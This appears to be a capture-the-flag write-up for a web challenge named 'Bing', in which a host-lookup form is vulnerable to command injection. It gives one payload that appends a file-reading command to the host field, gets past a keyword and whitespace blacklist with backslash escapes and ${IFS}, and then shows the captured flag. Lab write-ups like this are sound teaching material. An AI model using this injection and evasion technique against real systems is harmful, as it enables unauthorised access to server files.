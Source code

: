 # Bing
> `-`

## About the Challenge
We have been given a website that contains a form and we can input a host there

![preview_1](images/preview_1.png)

And then I tried to input 127.0.0.1 and here was the output

![preview_2](images/preview_2.png)

## How to Solve?
We need to exploit the website using `Command Injection` vulnerability in order to read the flag. Here is the payload that I used to read the flag

```
127.0.0.1;c\a\t${IFS}/f\lag.txt${IFS}|base64
```

Because some of the commands are blacklisted by the website (Like `cat` or `ls`), we can trick it with `/` character.  And because whitespace is also blacklisted by the website we can use `${IFS}`

![flag](images/flag.png)

```
dead{okokok!!!_th1s_flAg_f0R_Y0U}
```